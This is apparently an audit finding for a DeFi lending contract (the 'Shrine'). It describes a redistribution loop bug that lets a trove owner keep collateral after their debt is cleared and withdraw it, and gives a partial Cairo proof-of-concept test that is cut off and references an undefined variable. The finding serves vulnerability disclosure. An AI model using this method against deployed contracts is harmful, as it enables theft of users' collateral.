 If the user U1 can force redistribution of their position, then they can steal from the shrine due to a bug in the code. The function `redistribute_helper` loops through all yangs in order, including those not in the trove #1. Since `trove_yang_amt.is_zero()` returns `true` for yang A, the `updated_trove_yang_balances` array is updated early and then `continue` statement is executed.

However, since the `new_yang_totals` array is not updated in the iteration of the loop, some values of `updated_trove_yang_balances` end up never being used.

Let's assume 100% redistribution. After the all loop is fully executed, the two arrays contain:

`updated_trove_yang_balances = [(A, 0), (B, 0)];`<br>
`new_yang_totals = [(B, 1000)];`

The final loop of the function is executed just once. Its first and only iteration writes the new total B value. However, it does not update the amount of B in the trove #1, since `(B, 0)` is the second element of the first array.
The final state is that trove #1 still has 1000 units of B, but no more debt. The user U1 can now withdraw all 1000 units from the trove #1.

This bug violates the shrine invariant "The total amount of a yang is equal to the sum of all troves' deposits of that yang (this includes any exceptionally redistributed yangs and their accompanying errors) and the initial amount seeded at the time of `add_yang`."

### Proof of Concept

    #[test]
    fn test_shrine_redistribution_bug() {
        let shrine: IShrineDispatcher = shrine_utils::shrine_setup_with_feed(Option::None);

        // Manually set up troves so that all troves uses just yang1
        let yangs: Span<ContractAddress> = shrine_utils::three_yang_addrs_reversed();
        let yang_addr = *yangs.at(1); // select the middle one

        let forge_amt: u128 = 1_000_000_000_000_000_000_000;

        // Set up trove1 with some yang and some debt
        let trove1_owner = common::trove1_owner_addr();
        let redistributed_trove: u64 = common::TROVE_1;
        start_prank(CheatTarget::All, shrine_utils::admin());
        shrine.deposit(yang_addr, redistributed_trove, shrine_utils::TROVE1_YANG1_DEPOSIT.into());
        shrine.forge(trove1_owner, redistributed_trove, forge_amt.into(), 0_u128.into());

        // Set up trove1 with some yang and some debt
        let trove2_owner = common::trove2_owner_addr();
        let recipient_trove: u64 = common::TROVE_2;
        shrine.deposit(yang_addr, recipient_trove, shrine_utils::TROVE1_YANG1_DEPOSIT.into());
        shrine.forge(trove2_owner, recipient_trove, forge_amt.into(), 0_u128.into());

        println!("before:");
        println!(" trove1 yang={}", shrine.get_deposit(yang_addr, redistributed_trove).val);
        println!(" trove2 yang={}", shrine.get_deposit(yang_addr, recipient_trove).val);
        println!(" total yang: {}", shrine.get_yang_total(yang_addr));

        // Simulate complete redistribution of trove1
        shrine.redistribute(redistributed_trove, trove1_health.debt, RAY_ONE.into());

        println!("after:");
        println!(" trove1 yang={}", shrine.get_deposit(yang_addr, redistributed_trove).val);
        println!(" trove2 yang={}", shrine.get_deposit(yang_addr, recipient_trove).val);
        println!(" total yang: {}", shrine.get_yang_total(yang_addr));
